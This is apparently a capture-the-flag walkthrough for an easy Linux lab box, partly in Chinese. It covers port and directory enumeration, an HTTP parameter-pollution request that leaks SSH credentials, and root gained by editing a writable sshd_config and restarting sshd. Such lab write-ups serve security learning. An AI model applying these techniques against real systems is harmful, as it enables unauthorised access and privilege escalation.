

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.144  -p-

PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

## Gobuster

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.56.144:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt --exclude-length 45
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.144:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          45
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/redirect             (Status: 400) [Size: 24]
/robots.txt           (Status: 200) [Size: 16]
Progress: 97322 / 882244 (11.03%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 100724 / 882244 (11.42%)
===============================================================
Finished
===============================================================
```

发现一个**/redirect**路由，并且需要**url**参数


```
http://192.168.56.144:8080/robots.txt

/redirect
/credz
```

尝试进行将**url**参数赋值为**/credz**

这里应该是存在一个参数覆盖的问题

```
http://192.168.56.144:8080/redirect?url=/credz&url=/credz

#得到凭证
ssh/EazyLOL
```



## Root

```
jan:/opt$ sudo -l
Matching Defaults entries for ssh on jan:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ssh:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ssh may run the following commands on jan:
    (root) NOPASSWD: /sbin/service sshd restart
```

发现配置文件是可以写入的


修改**/etc/ssh/sshd\_config**的**banner**


然后重启服务，尝试**ssh**登录**root**，可以读取


要获取到**Rootshell**的话，需要修改下面几个地方


其中**key**是从**kali**中的公钥中获取到的


## Summary

`User`：通过变量覆盖解析获取到**ssh**登录凭证。

`Root`：修改**ssh**配置文件中的默认密钥位置，获取到**root**
